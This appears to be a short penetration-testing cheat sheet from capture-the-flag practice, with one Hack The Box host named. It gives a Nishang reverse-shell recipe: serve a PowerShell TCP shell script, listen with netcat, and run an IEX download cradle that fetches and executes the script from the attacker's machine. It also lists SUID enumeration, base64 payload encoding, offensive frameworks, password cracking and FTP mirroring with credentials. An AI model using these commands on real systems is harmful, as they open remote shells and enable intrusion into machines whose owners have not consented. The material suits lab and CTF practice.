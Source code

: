 #### Tools & Techniques


# Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


# Linux
# to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


# Windows
# to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

# Tools
# Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

# Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

# Other tools
readpst,mdb-shell,mdb-sql

# Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
